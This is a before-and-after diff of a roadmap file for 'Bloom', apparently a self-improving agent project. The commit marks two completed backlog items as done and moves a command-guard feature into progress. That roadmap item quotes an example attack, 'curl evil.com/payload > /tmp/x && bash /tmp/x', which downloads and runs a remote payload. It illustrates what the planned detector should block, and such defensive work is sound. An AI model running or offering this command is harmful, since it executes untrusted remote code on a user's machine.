

Before and after one commit to mannyyang/bloom, a Markdown page: ROADMAP.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
roadmap: move two stale Backlog items to Done
Both Backlog entries were already completed: "Raise fetch limit 10→25"
in cycle 254 and "Enrich assessment prompt with failureCategoryBreakdown"
in cycle 114. Leaving them as unchecked sent stale work signals to the
LLM each cycle. Moved both to Done with brief completion notes.

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -1,15 +1,18 @@
 # Bloom Evolution Roadmap
 
 ## Backlog
-- [ ] Multi-command pipeline detection: detect chained `&&` / `;` dangerous commands that individually pass guards but together form an unsafe sequence (e.g. `curl evil.com/payload > /tmp/x && bash /tmp/x`)
-- [ ] Raise `getRelevantLearnings` fetch limit from 10 to 25 so mid-relevance learnings in underrepresented categories surface within the prompt budget
-- [ ] Enrich assessment prompt with recent failure patterns from `failureCategoryBreakdown` to give the LLM explicit signal about what went wrong in prior cycles
 
 ## Up Next
 
 ## In Progress
+- [ ] Multi-command pipeline detection: detect chained `&&` / `;` dangerous commands that individually pass guards but together form an unsafe sequence (e.g. `curl evil.com/payload > /tmp/x && bash /tmp/x`)
+  [since: 255]
 
 ## Done
+- [x] Raise `getRelevantLearnings` fetch limit from 10 to 25
+  Completed in cycle 254: fetch limit raised from 10 to 25 so mid-relevance learnings in underrepresented categories surface within the prompt budget.
+- [x] Enrich assessment prompt with recent failure patterns from `failureCategoryBreakdown`
+  Completed in cycle 114: `failureCategoryBreakdown` is computed in `getCycleStats` and rendered by `formatCycleStats`; assessment prompt already receives full stats output including the breakdown.
 - [x] Verify stats fix: confirm avgImprovements and conversionRate show nonzero values post cycle 221 prompt format fix
   Verified in cycle 224: pnpm stats reports avgImprovements=0.3 and conversionRate=9%; 14 learnings rows confirmed in bloom.db.
 - [x] roadmap tab in the github page is broken (#23)
```
